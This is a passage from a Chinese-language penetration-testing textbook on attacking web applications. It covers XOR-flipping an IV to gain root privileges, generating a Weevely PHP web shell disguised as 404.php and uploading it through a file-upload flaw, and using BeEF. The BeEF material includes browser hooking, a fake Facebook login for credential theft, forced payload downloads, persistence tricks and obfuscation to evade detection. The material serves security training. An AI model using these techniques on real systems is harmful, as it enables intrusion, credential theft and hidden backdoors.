测试人员可以使用 Python 2（因为 Python 3 中没有十六进制支持）为我们生成十六进制值，如此处所示。在 Kali 终端中输入 `python`，应该会进入 Python shell 2.7.18 默认版本。我们将对该值进行异或操作，得到结果 `000`：

```
>>> print hex(0XAB ^ 0X31)
0x9a
>>> print hex(0X9A ^ 0X31)
0xab
>>> print hex(0X9A ^ 0X30)
0xaa 
```

要成为 root 用户，组 ID 和用户 ID 都需要为 `000`，因此我们会在所有块上重复此操作，直到值发生变化。最终，我们得到第八块 `6bc24fc1ab650b``14``b4114e93a98f1eba`，它改变了组 ID；现在，我们将对其执行与用户 ID 相同的操作：

```
kali@kali:~# python
Type "help", "copyright", "credits" or "license" for more information
>>> print hex(0X25 ^ 0X31)
0x14
>>> print hex(0X14 ^ 0X30)
0x24
>>> exit() 
```

这为我们提供了以下密钥：`6bc24fc1``aa``650b``24``b4114e93a98f1eba`。当你传递具有新值的 IV 时，你现在应该能够以增强权限访问应用程序，如*图 7.30*所示：


图 7.30：通过改变加密右侧值绕过用户权限

即使加密处于最高级别（如 TLS1.3），如果应用程序通过 HTTP `GET` 方法接受或执行身份验证，攻击者仍然有可能利用路由器等网络设备，并捕获所有 URL 参数。

### 通过 Web Shell 维持访问

一旦 Web 服务器及其服务被攻破，确保能够维持安全访问非常重要。通常这可以通过 Web Shell 实现，它是一个小程序，提供隐秘的后门访问，并允许使用系统命令来促进后期的攻击活动。

Kali 附带了多个 Web Shell；在这里，我们将使用一个流行的 PHP Web Shell，称为 **Weevely**。对于其他技术，攻击者可以利用 Kali Linux 中所有预先收集的 Web Shell，这些 Shell 存储在 `/usr/share/webshells` 文件夹中。

Weevely 模拟一个 Telnet 会话，允许测试者或攻击者利用 30 多个模块来执行后渗透任务，包括以下内容：

+   浏览目标文件系统

+   从被攻陷的系统传输文件

+   执行常见服务器配置错误的审计

+   通过目标系统进行 SQL 账户的暴力破解

+   启动反向 TCP Shell

+   在已被攻陷的远程系统上执行命令，即使已经应用了 PHP 安全限制

最后，Weevely 试图将通信隐藏在 HTTP Cookies 中以避免被检测。要创建 Weevely，可以在命令提示符下输入以下命令：

```
sudo weevely generate <password> <path> 
```

这将创建一个名为 `404.php` 的文件，存储在你输入的路径的 `/home/kali` 目录中。攻击者可以在渗透测试活动中自行选择文件名，不过，像 `404`、`403` 和 `302` 这样的文件名通常表示基于客户端请求返回的页面，这样会让安全监控的蓝队感觉不那么可疑。*图 7.31*提供了如何运行 `weevely` 的说明：



图 7.31：使用 Weevely 创建带有密码的 PHP 后门文件

导航到 **OWASP 2017** > **A6 - 安全配置错误** > **无限制文件上传**。我们将利用 Mutillidae 上的文件上传漏洞。上传我们使用 `weevely` 创建的 `404.php` 文件到网站，如*图 7.32*所示：


图 7.32：将后门 PHP 文件上传到我们的目标应用程序

要与 Web Shell 进行通信，可以在命令提示符下输入以下命令，确保目标 IP `地址`、`目录` 和 `密码` 变量更改为被攻陷系统的相应值：

```
sudo weevely http://<target IP address><directory> <password> 
```

在*图 7.33*所示的示例中，我们已经验证了使用 `whoami` 命令（用于识别当前系统）连接到 Web Shell：


图 7.33：通过后门成功以高权限用户身份在目标上运行命令

Web Shell 还可以用来建立一个反向 Shell 连接回测试者，使用 `netcat` 或 Metasploit 框架作为本地监听器。这可以用于通过水平和垂直提权进一步攻击网络内部。

不幸的是，Weevely 后门只能在 PHP 版本低于 7.2.x 的环境中工作。如果目标网站运行的是 7.3 到 8.x 版本，攻击者可以利用可以从[`github.com/PacktPublishing/Mastering-Kali-Linux-for-Advanced-Penetration-Testing-4E/tree/main/Chapter%2007/backdoor.php`](https://github.com/PacktPublishing/Mastering-Kali-Linux-for-Advanced-Penetration-Testing-4E/tree/main/Chapter%2007/backdoor.php)下载的现成后门，并将文件上传到与我们在*图 7.32*中所做相同的位置。现在我们应该能够看到后门正常工作，如*图 7.34*所示：


图 7.34：在最新版本的 PHP 上运行后门

# 浏览器利用框架（BeEF）

BeEF 是一个专注于特定客户端应用程序和网页浏览器的利用工具。BeEF 允许攻击者通过 XSS 或 SQL 注入等攻击将 JavaScript 代码注入到易受攻击的 HTML 代码中。这段利用代码被称为**hook**。当浏览器执行这个 hook 时，攻击得以实现。浏览器（**僵尸**）会回连到 BeEF 应用程序，BeEF 向浏览器提供 JavaScript 命令或模块。

BeEF 的模块执行以下任务：

+   指纹识别和受损浏览器的侦察。它也可以作为一个平台，用于评估漏洞的存在以及它们在不同浏览器下的行为。

    请注意，BeEF 允许我们在同一客户端上挂钩多个浏览器，并跨域管理多个客户端，然后在利用和后期利用阶段进行管理。

+   对目标主机进行指纹识别，包括虚拟机的存在。

+   检测客户端上的软件（仅限 Internet Explorer）并获取 `Program Files` 和 `Program Files (x86)` 目录中的目录列表。这可能会识别出其他可以被利用的应用程序，从而巩固我们对客户端的控制。

+   使用受损系统的摄像头拍照；这些照片对报告有重大影响。

+   对受害者的数据文件进行搜索，窃取可能包含身份验证凭证（剪贴板内容和浏览器 cookies）或其他有用信息的数据。

+   实现浏览器按键记录。

+   使用 ping 扫描和指纹识别网络设备，进行网络侦察，并扫描开放端口。

+   从 Metasploit 框架发起攻击。

+   使用隧道代理扩展，利用受损网页浏览器的安全权限攻击内部网络。

由于 BeEF 是用 Ruby 编写的，它支持多种操作系统（Linux、Windows 和 macOS）。更重要的是，BeEF 易于自定义新的模块，并扩展其功能。

## 安装和配置 BeEF

BeEF 在 Kali 发行版中并非默认安装。可以直接从 [`github.com/beefproject/beef`](https://github.com/beefproject/beef) 下载。此应用程序可以通过三个简单的步骤进行安装：

1.  在终端中运行`sudo git clone https://github.com/beefproject/beef`

1.  使用 `cd beef` 命令更改文件夹

1.  通过在终端中运行 `sudo ./install` 安装所有依赖项和相关包。

1.  最后，运行 `sudo bundle install` 安装相关的 Ruby gems 和包

如果测试人员在安装 BeEF 时收到任何错误信息（*第 3 步*），特别是与未满足的依赖项（如 `libgcc-9-dev`）相关的错误，建议他们将以下仓库添加到 `/etc/apt/sources.list` 文件中，然后运行 `sudo apt update`，最后执行 `sudo ./install`：

`deb http://http.kali.org/kali kali-last-snapshot main non-free contrib`

`deb http://http.kali.org/kali kali-experimental main non-free contrib`

`deb-src http://http.kali.org/kali kali-rolling main non-free contrib`

默认情况下，BeEF 未与 Metasploit 框架集成。要集成 BeEF，你需要执行以下步骤：

1.  编辑位于你下载/克隆 BeEF 的同一文件夹中的主配置文件，使用 `sudo` 权限打开 `config.yaml` 以编辑内容。如果没有更改默认的用户名和密码，BeEF 应用程序将无法启动，因此建议测试人员将默认凭证作为第一步进行更改，如 *图 7.35* 所示：

    图 7.35：更改 BeEF 应用程序的默认凭证

1.  编辑位于 /`Beef/extensions/metasploit/config.yml` 的文件。默认情况下，所有内容都设置为 localhost（`127.0.0.1`）。如果你在局域网中运行 Metasploit 服务，则需要编辑 `host`、`callback_host` 和 `os 'custom', path` 行，包含你的 IP 地址和 Metasploit 框架的位置。正确编辑后的 `config.yml` 文件如 *图 7.36* 所示：

    图 7.36：使用 Metasploit 框架配置 BeEF 扩展

1.  启动 `msfconsole`，并加载 `msgrpc` 模块，如 *图 7.37* 所示。确保包括密码：

    图 7.37：使用自定义密码允许 MSGRPC 服务在网络 IP 上运行

1.  通过在应用程序下载的相同位置使用以下命令启动 BeEF：

    ```
    sudo ./beef 
    ```

1.  通过查看程序启动时生成的消息来确认启动。这些消息应表明与 Metasploit 的成功连接，并伴有 Metasploit 漏洞已加载的提示。成功启动的程序如 *图 7.38* 所示：

    图 7.38：成功启动 BeEF 应用程序

当你重新启动 BeEF 时，使用 `-x` 参数来重置数据库。

在这个示例中，BeEF 服务器运行在 `10.10.10.12` 上，钩子 URL（我们希望目标激活的 URL）是 `10.10.10.12:3000/hook.js`。

BeEF 大部分的管理和操作都是通过 Web 界面进行的。要访问控制面板，请前往 `http://<IP 地址>:3000/ui/panel`。

攻击者应该看到以下截图；登录凭证将按 `config.yaml` 中的设置输入：


图 7.39：登录 BeEF 应用程序

# 了解 BeEF 浏览器

启动 BeEF 控制面板时，它会展示 **入门指南** 页面，页面上有指向在线站点的链接，以及可以用于验证各种攻击的演示页面。BeEF 控制面板如 *图 7.40* 所示：


图 7.40：BeEF 浏览器在成功认证后跟随

如果你已经钩住了受害者，界面将分为两个面板：

+   在面板的左侧，我们有**钩住的浏览器**；测试人员可以看到每个连接的浏览器，并查看其主机操作系统、浏览器类型、IP 地址和已安装的插件信息。由于 BeEF 会设置一个 cookie 来识别受害者，因此它可以参考这些信息并保持一致的受害者列表。

+   面板的右侧是所有操作的发起地点，并且结果在此处显示。在**命令**选项卡中，我们可以看到针对已钩住浏览器的不同攻击向量的分类存储库。此视图会根据每个浏览器的类型和版本有所不同。

BeEF 使用一种颜色编码方案来根据命令对特定目标的可用性进行分类。使用的颜色如下：

+   **绿色**：表示命令模块对目标有效，并且应该对受害者不可见。

+   **橙色**：表示命令模块对目标有效，但可能会被受害者检测到。

+   **灰色**：表示命令模块尚未经过验证，无法针对目标使用。

+   **红色**：表示命令模块对目标无效。可以使用，但不保证成功，且可能会被目标检测到。

请对这些指示保持谨慎态度，因为客户端环境的差异可能使某些命令无效，或导致其他意外结果。

要开始攻击或钩住受害者，我们需要让用户点击钩子 URL，格式为`<IP 地址>:<端口>/hook.js`。这可以通过多种方式实现，包括：

+   原始 XSS 漏洞

+   中间人攻击（特别是使用 BeEF Shank 的攻击，这是一种 ARP 欺骗工具，专门针对内部网络中的内网网站）

+   社会工程学攻击，包括 BeEF 网页克隆器和群发邮件工具、自定义钩子点与 iFrame 伪装，或二维码生成器

一旦浏览器被钩住，它就被称为僵尸。请选择命令界面左侧**钩住的浏览器**面板中的僵尸 IP 地址，然后查看可用的命令。

在下面截图所示的示例中，钩住的浏览器提供了几种不同的攻击和管理选项。最简单的攻击选项之一是社会工程学**Clippy**攻击。

当在**命令**下的**模块树**中选择**Clippy**时，将在最右侧启动一个特定的**Clippy**面板，如下图所示。它允许你调整图像、所传递的文本，以及如果受害者点击提供的链接时将在本地启动的可执行文件。

默认情况下，自定义文本会通知受害者他们的浏览器已过时，并提供为他们更新浏览器的选项，下载一个可执行文件（无害），然后感谢用户执行更新。所有这些选项都可以由测试者修改：


图 7.41：BeEF Clippy 模块

当 Clippy 执行时，受害者会在他们的浏览器上看到一条消息，如*图 7.42*所示：


图 7.42：受害者浏览器显示 BeEF 模块 Clippy 消息

这可以是一个非常有效的社会工程攻击。在与客户测试时，我们的成功率（客户下载了一个无害的指示文件）大约为 70%。

一个更有趣的攻击是 "pretty theft"，它要求用户提供他们在热门网站上的用户名和密码。例如，Facebook 的 "pretty theft" 选项可以由测试者配置，如*图 7.43*所示：


图 7.43：假 Facebook 弹窗的 Pretty theft 模块

当攻击执行时，受害者会看到一个看似合法的弹出窗口，如*图 7.44*所示：


图 7.44：受害者浏览器显示假 Facebook 会话超时

在 BeEF 中，测试者查看攻击历史日志，并可以从**命令结果**栏的数据字段中推导出用户名和密码，如*图 7.45*所示：


图 7.45：BeEF 模块 "pretty theft" 捕获受害者输入的数据

另一个可以快速发起的攻击是老式的钓鱼攻击；一旦浏览器被 BeEF 控制，重定向用户到攻击者控制的网站就相当简单。

## 使用 BeEF 作为隧道代理

隧道技术是将有效负载协议封装在传输协议中（如 IP）的过程。通过隧道技术，您可以跨网络传输不兼容的协议，或者绕过配置为阻止特定协议的防火墙。BeEF 可以配置为充当隧道代理，模拟反向 HTTP 代理——浏览器会话成为隧道，被钩住的浏览器则是出口点。当内部网络被攻破时，这种配置非常有用，因为隧道代理可以用于以下操作：

1.  在受害者浏览器的安全上下文中浏览已认证站点（客户端 SSL 证书、认证 cookie、NTLM 哈希等）

1.  使用受害者浏览器的安全上下文爬取被钩住的域

1.  便于使用诸如 SQL 注入等工具

要使用隧道代理，选择您希望攻击的被钩住的浏览器，并右键单击其 IP 地址。在弹出框中，如*图 7.46*所示，选择**用作代理**选项：


图 7.46：通过代理激活浏览器中的中间人攻击

配置浏览器使用 BeEF 隧道代理作为 HTTP 代理。默认情况下，代理地址为 `127.0.0.1`，端口为 `6789`。攻击者可以利用 **Forge Request** 强迫用户从攻击者控制的网站下载有效载荷或勒索软件，如 *图 7.47* 所示：


图 7.47：强制受害者从远程站点下载内容

如果你使用配置为 HTTP 代理的浏览器访问目标网站，所有原始的请求/响应对将存储在 BeEF 数据库中，可以通过导航到 **Rider** | **History** 来分析。日志的摘录如下所示，如 *图 7.48*：


图 7.48：代表受害者提交的 forge HTTP 请求日志

一旦攻击完成，有一些机制可以确保保持持久连接，包括以下内容：

+   **确认关闭**：这是一个模块，当受害者尝试关闭标签页时，会弹出 **确认导航 - 您确定要离开此页面吗？** 的提示框。如果用户选择离开此页面，则此操作不会生效，**确认导航** 提示框将继续显示。

+   **弹出窗口下拉模块**：该模块配置为在 `config.yaml` 中自动运行。此模块尝试打开一个小的弹出下拉窗口，以便在受害者关闭主要浏览器标签页时，保持浏览器处于活跃状态。该行为可能会被弹窗拦截器阻止。

+   **iFrame 键盘记录器**：该模块将网页上的所有链接重写为一个 iFrame 覆盖层，覆盖原始页面的 100% 高度和宽度。为了最大效果，应该将其与 JavaScript 键盘记录器结合使用。理想情况下，您应该加载被劫持域的登录页面。

+   **浏览器劫持**：该模块确保每当受害者点击任何链接时，下一页也会被劫持。避免此行为的唯一方法是手动在地址栏输入新地址。

最后，尽管 BeEF 提供了一系列出色的模块，用于执行侦察以及杀伤链的漏洞利用和后期利用阶段，但 BeEF 的已知默认活动（`/hook.js` 和服务器头）正被用来检测攻击，从而降低了其有效性。

测试人员必须使用如 Base64 编码、空白编码、随机化变量、删除注释等技术来混淆攻击，以确保未来的完全有效性。

# 总结

在本章中，我们从攻击者的角度审视了 Web 应用程序及其提供的用户授权服务。我们将杀伤链的视角应用于 Web 应用程序及其服务，以便理解侦察和漏洞扫描的正确应用。

提出了几种不同的技术；我们聚焦于黑客心态，探讨了攻击网页应用程序时的思维方式，并了解了进行渗透测试时使用的方法论。我们学习了如何利用客户端代理执行各种攻击，查看了用于对网站进行暴力破解的工具，并通过网页应用程序覆盖了操作系统级命令。我们通过检查特定于网络服务的网页 shell 完成了本章内容。

在*第八章*，*云安全漏洞利用*中，我们将学习如何识别和攻击配置错误的云服务，这些服务允许用户访问资源，以及如何提升权限以实现目标。
